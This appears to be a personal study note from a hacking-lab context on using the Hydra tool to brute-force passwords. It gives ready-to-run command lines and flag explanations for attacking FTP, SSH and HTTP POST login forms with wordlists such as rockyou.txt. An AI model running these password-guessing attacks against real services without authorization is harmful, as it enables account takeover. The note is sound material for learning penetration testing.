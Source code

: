 ```yaml
---
tags:
  - programming/hacking/tools
  - programming/linux
---
```

# Hydra

Installed on Kali by default. Used to bruteforce usernames / password by iterating through a list.  


# Formatting calls

Format depends on the type of service we are hitting. For example, ssh looks like this: 

```bash
    hydra -l user -P passlist.txt ftp://MACHINE_IP
```


## SSH

SSH call `hydra -l <username> -P <full path to pass> 10.10.127.253 -t 4 ssh`

```bash
   -l   # For username 
   -P   # password list
   -t   # Number of threads to use
   -V   # Verbose output
   ssh  # Using ssh
```

Making an actual call:

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt $ipadd -t 4 ssh
```

## Post Web Form

```bash
hydra -l <username> -P <wordlist> 10.10.127.253 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

Breaking that down becomes

```
    -l  # single username 
    -P  # Password list
    http-post-form  # Type of form (post)
    /login url  # The login page URL
    :username   # Form field for username
    ^USER^      # Tell it to use username here
    password    # form field for password
    ^PASS^      # Use password list supplied earlier
    Login       # indicates the Login failed message
    Login failed    # login failure message returned 
    F=incorrect # If message appears, login failed
    -V verbose output
```

